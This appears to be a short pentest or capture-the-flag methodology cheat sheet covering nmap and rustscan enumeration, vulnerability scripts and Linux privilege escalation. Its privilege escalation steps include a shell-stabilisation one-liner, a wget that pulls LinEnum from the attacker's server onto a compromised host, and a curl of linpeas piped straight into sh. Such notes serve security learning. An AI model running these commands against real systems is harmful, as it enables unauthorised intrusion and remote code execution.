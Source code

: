## Setting
1.export ip=10.10.10.10\
1.5 make directory for nmap result: mkdir nmap && cd nmap
## Ennumeration
2. `nmap -sC -sV -p- -Pn $ip --open -oN result   AND  rustscan -a $IP and rustscan -a $IP`.\ 
3. Check which ports are open. Take note of service running and versions(for searchsploit)\
4. Manual ennumeration. Visit the open ports to see if we can get initial foothold information. e.g anoymous login, default login,etc\
5. Check for vulnerabiltieis on specific ports using nmap script `nmap -p 80,445,139 --script=*vuln* $IP`
## Using searchsploit, payload, revershell 

## Getting a reverseshell(stable)

## Privilege Escalation
0. Stabalize shell `python3 -c 'import pty; pty.spawn("/bin/bash")'`\
1.Automated scan for vulnerabilities or manual ennumeration.\
2.Create a directory and a a linEnum.sh file. Copy paste the content from https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh\
3.Host a python server `python3 -m http.server 8080` to transfer the linEum.sh\
4.From the reverse shell, `wget http://$myIP:8080/linEum.sh .` to recieve linEum.sh\
5.Give access. `chmod +x linEum.sh` and `./linEum -t` \
6. If file transfer premission is denied, simply `curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh` which would execute script.

 

